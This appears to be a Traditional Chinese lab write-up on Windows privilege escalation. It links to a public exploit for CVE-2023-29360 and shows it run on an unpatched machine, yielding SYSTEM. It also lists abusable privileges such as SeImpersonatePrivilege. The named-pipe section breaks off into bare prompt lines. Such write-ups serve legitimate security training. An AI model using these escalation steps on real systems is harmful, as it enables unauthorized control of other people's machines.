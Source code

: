 可以查看 [Microsoft Security Response Center](https://msrc.microsoft.com/) 的 Security vulnerabilities\
其中 [CVE-2023-29360](https://github.com/sickn3ss/exploits/tree/master/CVE-2023-29360/x64/Release) 提供了 exploit code 和  pre-compiled version exploit 。在漏洞的官方網站 MSRC，[微軟應該會根據漏洞提供 patch](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29360)，patch 編號為 KB5027215，但我們在目標機器上沒有看到 (代表未修補)。

#### 3. 嘗試使用 public exploit
```
PS C:\Users\steve\Desktop> whoami
clientwk220\steve
PS C:\Users\steve\Desktop> .\CVE-2023-29360.exe
[+] Device Description: Microsoft Streaming Service Proxy
Hardware IDs:
        "SW\{96E080C7-143C-11D1-B40F-00A0C9223196}"
[+] Device Instance ID: SW\{96E080C7-143C-11D1-B40F-00A0C9223196}\{3C0D501A-140B-11D1-B40F-00A0C9223196}
[+] First mapped _MDL: 25f9aa00140
[+] Second mapped _MDL: 25f9aa10040
[+] Unprivileged token reference: ffffd1072dde6061
[+] System token reference: ffffd1071de317d5
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

C:\Users\steve\Desktop>whoami
nt authority\system
```
> public exploit 成功提權，以上是利用 Kernel Exploit 的方式

>[!Important]
>**濫用 Windows 特權（Privilege Abuse**）\
>Windows 作業系統中的某些 Privileges 允許特定使用者執行敏感操作，例如：
`SeImpersonatePrivilege`（冒充權限）\
`SeBackupPrivilege`（備份權限）\
`SeDebugPrivilege`（除錯權限）\
若 whoami /priv 顯示 SeImpersonatePrivilege，表示 attacker 可以利用它來提權。

>[!Important]
>**Named Pipe 進行提權**\


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir